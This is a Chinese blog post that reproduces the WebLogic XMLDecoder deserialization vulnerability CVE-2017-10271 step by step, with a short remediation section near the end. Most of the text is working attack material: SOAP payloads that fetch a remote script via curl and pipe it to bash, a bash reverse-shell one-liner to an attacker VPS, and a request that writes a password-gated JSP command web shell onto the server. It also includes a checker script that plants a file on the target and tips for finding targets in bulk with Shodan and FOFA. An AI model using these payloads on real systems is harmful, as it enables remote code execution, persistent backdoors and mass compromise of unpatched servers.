



# WebLogic XMLDecoder 反序列化漏洞(CVE-2017-10271)复现 - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/8194324.html`](https://www.cnblogs.com/backlion/p/8194324.html)

**WebLogic XMLDecoder****反序列化漏洞(CVE-2017-10271)**

 **-----by backlion**

### 0x01 漏洞说明

  近日，黑客利用 WebLogic 反序列化漏洞 CVE-2017-3248 和 WebLogic WLS LS 组件的远程代码执行漏洞 CVE-2017-10271，Oracle 官方在 2017 年 10 月份发布了该漏洞的补丁，但没有公开漏洞细节，如果企业未及时安装补丁，存在被攻击的风险。对企业服务器发起了大范围远程攻击，对大量企业的服务器造成了严重威胁，**受影响版本：10.3.6.0.0, 12.1.3.0.0, 12.2.1.1.0, 12.2.1.2.0**

### 0x02 攻击说明

  攻击者选定要攻击的目标主机后，将首先利用漏洞 CVE-2017-3248 进行攻击，无论是否成功，都将再利用 CVE-2017-10271 进行攻击。在每一次的攻击过程中，都是先针对 Windows 系统，再针对 Linux 系统。具体攻击流程如下：

1、利用 WebLogic 反序列化漏洞（CVE-2017-3248）调用 Linux 中的 wget 下载 shell 脚本并调用 Linux 本地“/bin/bash”执行 shell 脚本。（shell 脚本内容内定义了从远端下载执行 watch-smartd 挖矿程序控制细节）

2、  利用 WebLogic 反序列化漏洞（CVE-2017-3248）调用 Windows 中的 PowerShell 进行样本下载和运行。

3、  利用 WebLogic WLS 组件漏洞（CVE-2017-10271）调用 Linux 中的 wget 下载 shell 脚本并调用 Linux 本地“/bin/bash”执行 shell 脚本。

4、  利用 WebLogic WLS 组件漏洞（CVE-2017-10271）调用 Windows 中的 powershell 进行样本下载和恶意代码执行。

5、在此次的攻击事件中，CVE-2017-3248 利用不成功，CVE-2017-10271 则利用成功，从而导致了服务器被攻击者攻陷，进而在系统日志中留下了痕迹。

### 0x03 分析利用

此次漏洞出现在 wls-wsat.war 中，此组件使用了 weblogic 自带的 webservices 处理程序来处理 SOAP 请求首先在 weblogic.wsee.jaxws.workcontext.WorkContextServerTube 类中获取 XML 数据最终传递给 XMLDecoder 来解析，其解析 XML 的调用链为

weblogic**.**wsee**.**jaxws**.**workcontext**.**WorkContextServerTube**.**processRequest

weblogic**.**wsee**.**jaxws**.**workcontext**.**WorkContextTube**.**readHeaderOld

weblogic**.**wsee**.**workarea**.**WorkContextXmlInputAdapter

首先看到

weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest 方法



获取到 localHeader1 后传递给 readHeaderOld 方法，其内容为<work:WorkContext>所包裹的数据，然后继续跟进

weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld 方法


在此方法中实例化了 WorkContextXmlInputAdapter 类，并且将获取到的 XML 格式的序列化数据传递到此类的构造方法中，最后通过 XMLDecoder 来进行反序列化操作。


关于 XMLDecoder 的反序化问题 13 年就已经被人发现，近期再次被利用到 Weblogic 中由此可见 JAVA 生态圈中的安全问题是多么糟糕。值得一提的是此次漏洞出现了两处 CVE 编号，因为在 Oracle 官方在修复 CVE-2017-3506 所提供的 patch 只是简单的检查了 XML 中是否包含了<object>节点，然后将<object>换为<void>即可绕过此补丁。因此在修复过程中用户一定要使用 Oracle 官方十月份所提供的 patch。

### 0x04 漏洞复现

**所需环境**

vps 服务器：ubuntu16.4 ip:x.x.x.x

所需软件：burpusit

一般情况下 weblogic 会开放 7001 以及 7002 端口

如果访问/wls-wsat/CoordinatorPortType11 目录，存在下图则说明或许存在漏洞

[`11.203.x.x/wls-wsat/CoordinatorPortType`](http://111.203.122.88/wls-wsat/CoordinatorPortType)



首先在你的外网服务器上安装 python2.7

sudo apt-get install python2.7

然后在你的外网 vps 服务器上，利用 vim 编写一个反弹脚本如 a.sh(填写自己的服务器 ip 和将要用 nc 监听的端口)

bash -i >& /dev/tcp/vpsip/ncport 0>&1

或者

/bin/bash -i >& /dev/vpsip/ncport   0>&1


用 xshell 连接服务器，执行(python 服务器端口和 nc 的端口可以自己随便来设置)

python -m SimpleHTTPServer pythonport 和 nc -lvp ncport 


执行后就可以 用 poc 进行测试

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1

Host: 11.203.x.x

Accept-Encoding: identity

Content-Length: 695

Accept-Language: zh-CN,zh;q=0.8

Accept: */*

User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0

Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3

Connection: keep-alive

Cache-Control: max-age=0

Content-Type: text/xml

<soapenv:Envelope >

  <soapenv:Header>

    <work:WorkContext >

        <java version="1.8.0_131" class="java.beans.XMLDecoder">

          <void class="java.lang.ProcessBuilder">

            <array class="java.lang.String" length="3">

              <void index="0">

<string>/bin/bash</string>

              </void>

              <void index="1">

                <string>-c</string>

              </void>

              <void index="2">

                <string>curl http://x.x.x.x:81/a.sh|bash</string>

              </void>

            </array>

          <void method="start"/></void>

        </java>

      </work:WorkContext>

    </soapenv:Header>

  <soapenv:Body/>

</soapenv:Envelope>
```

将以上代码复制到 burpsuit 中的 repeater 中，注意代码中的 Host: 11.203.x.x 需要改成你所要攻击的目标对象，并且 target 的 hsot 和 port 也要根据目标地址和端口



其中的

<void index="2">

                <string>curl http://x.x.x.x:81/a.sh|bash</string>

              </void>

也需要实际改

然后进行执行 repeater 的 go

服务器返回

```
HTTP/1.1 500 Internal Server Error

Connection: close

Date: Sat, 23 Dec 2017 05:16:01 GMT

Content-Type: text/xml; charset=utf-8

X-Powered-By: Servlet/2.5 JSP/2.1

Content-Length: 262

<?xml version='1.0' encoding='UTF-8'?><S:Envelope ><S:Body><S:Fault ><faultcode>S:Server</faultcode><faultstring>0</faultstring></S:Fault></S:Body></S:Envelope>
```

随后你就会在自己的 vps 上得到一个反弹 shell


这样就 OK 了，如果你要拿到 shell 的话

直接 cd 到 servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/目录,此为系统默认目录，然后可以在 poc 上 wget 一个 jsp 脚本，然后使用 mv 命令进行移动到此目录，最重要的你用菜刀连接的话，不是连接的此目录，而是/bea_wls_internal/目录下的脚本文件

附上 poc 检查脚本：

```
# coding:utf-8

# !/bin/env python2

import requests

import re

import sys

from requests.packages.urllib3.exceptions import InsecureRequestWarning

# 禁用安全请求警告

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

# 判断 weblogic 漏洞是否存在的地址，因没有 poc，暂时只能判断这个地址

check_addr = '/wls-wsat/CoordinatorPortType11'

shell_addr = '/bea_wls_internal/connect.jsp'

heads = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36',

        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',

        'Accept-Language': 'zh-CN,zh;q=0.8',

        'SOAPAction': "",

        'Content-Type': 'text/xml;charset=UTF-8'

        }

post_str = '''

<soapenv:Envelope >  

  <soapenv:Header>

    <work:WorkContext >  

      <java>

        <object class="java.lang.ProcessBuilder">

          <array class="java.lang.String" length="3">

            <void index="0">

              <string>/bin/sh</string>

            </void>  

            <void index="1">

              <string>-c</string>

            </void>  

            <void index="2">

              <string>find $DOMAIN_HOME -type d -name bea_wls_internal|while read f;do find $f -type f -name

              index.html;done|while read ff;do echo vulexist>$(dirname $ff)/connect.jsp;done</string>

            </void>

          </array>  

          <void method="start"/>

        </object>

      </java>

    </work:WorkContext>

  </soapenv:Header>  

  <soapenv:Body/>

</soapenv:Envelope>

'''

def check(url):

    #print("正在检测第%d 个 url:%s" % (status_num,url))

    vuln_url = url + check_addr

    content = requests.get(vuln_url, verify=False, timeout=10)

    if content.status_code == 200:

        rsp = requests.post(vuln_url, headers=heads, data=post_str.encode(

            "utf-8"), verify=False, timeout=10)

        content = rsp.content

        if re.search(r"java\.lang\.ProcessBuilder", content, re.I):

            # print "getshell success,shell is:%s"%(url+shell_addr)

            string_to_write = "Congratulations! weblogic 远程命令执行漏洞存在:\n" + url + shell_addr + "\n"

            print string_to_write

        else:

            print "失败"

    else:

        print(content.status_code)

# 判断漏洞是否存在

# target = sys.argv[1]

target = "https://x.x.x.com"

print("checking weblogic vul for "+target)

check(target)

# 传入的 target 是 http://www.baidu.com 格式(不带端口 )
```

### 0x04 漏洞修复建议

#### 1.临时解决方案

 根据攻击者利用 POC 分析发现所利用的为 wls-wsat 组件的 CoordinatorPortType 接口，若 Weblogic 服务器集群中未应用此组件，建议临时备份后将此组件删除，当形成防护能力后，再进行恢复。

根据实际环境路径，删除 WebLogic wls-wsat 组件：

rm -f   /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war

rm -f   /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war

rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat

重启 Weblogic 域控制器服务:

DOMAIN_NAME/bin/[stopWeblogic.sh](http://stopweblogic.sh/)         #停止服务

DOMAIN_NAME/bin/[startManagedWebLogic.sh](http://startmanagedweblogic.sh/)    #启动服务

删除以上文件之后，需重启 WebLogic。确认[`weblogic_ip/wls-wsat/`](http://link.zhihu.com/?target=http%3A//weblogic_ip/wls-wsat/) 是否为 404 页面。

#### 2.官方补丁修复

前往 Oracle 官网下载 10 月份所提供的安全补丁

http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html

升级过程可参考：

[`blog.csdn.net/qqlifu/article/details/49423839`](http://blog.csdn.net/qqlifu/article/details/49423839)

#### 3.在线检查工具

[`adlab.venustech.com.cn/vulscan`](http://adlab.venustech.com.cn/vulscan)

[`cloud.nsfocus.com/#/krosa/views/initcdr/productandservice?page_id=12`](https://cloud.nsfocus.com/%23/krosa/views/initcdr/productandservice?page_id=12)

---------------------------------------------------------------------------------------------

经验总结：

linux 下的监听的端口可以供多个 IP 轮换连接，不用再更改监听端口。

一般在当前域下的：

servers/AdminServer/tmp/_WL_internal/下：

该目录下可以上传 war 包，也可以进入到：

bea_wls9_async_response，bea_wls_internal 和 uddiexplorer 等目录下的 war 目录中上传脚本木马 

如：servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/bk.jps

对应的访问 URL 地址：

[`x.x.x.x:7001/bea_wls_internal/a.jsp`](http://x.x.x.x:7001/bea_wls_internal/a.jsp)

附上直接写入 jsp 小马：

```
POST http://163.177.*.*:7001/wls-wsat/CoordinatorPortType HTTP/1.1
Accept: */*
User-Agent: Mozilla/5.0
Referer: http://www.baidu.com/
Content-Type: text/xml
Host: 163.177.*.*:7001
Content-Length: 521
Expect: 100-continue
Connection: Keep-Alive

<soapenv:Envelope >
<soapenv:Header>
<work:WorkContext >
<java><java version="1.4.0" class="java.beans.XMLDecoder">
<object class="java.io.PrintWriter">
<string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/a.jsp</string><void method="println">
<string><![CDATA[<%if("023".equals(request.getParameter("pwd"))){ 
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); 
int a = -1; 
byte[] b = new byte[2048]; 
out.print("<pre>"); 
while((a=in.read(b))!=-1){ 
out.println(new String(b)); 
} 
out.print("</pre>");} %>]]></string></void><void method="close"/>
</object>
</java>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
```

或者测试上传的 poc:

```
POST http://163.177.*.*:7001/wls-wsat/CoordinatorPortType HTTP/1.1
Accept: */*
User-Agent: Mozilla/5.0
Referer: http://www.baidu.com/
Content-Type: text/xml
Host: 163.177.*.*:7001
Content-Length: 521
Expect: 100-continue
Connection: Keep-Alive

<soapenv:Envelope ><soapenv:Header><work:WorkContext ><java><java version="1.4.0" class="java.beans.XMLDecoder"><object class="java.io.PrintWriter"> <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/bk.txt</string><void method="println"><string>thisi is a xmldecoder_vul_test!</string></void><void method="close"/></object></java></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>
```

批量扫描 weblgic 服务：

1.谷歌搜索关键字“weblogic server administration console inurl：console”

2.利用 shodan 搜索关键字：port:7001  port:7002

3.利用 fofa 搜索关键字：weblogic

4.IISPU 批量扫描带有标识为“WebLogic Server"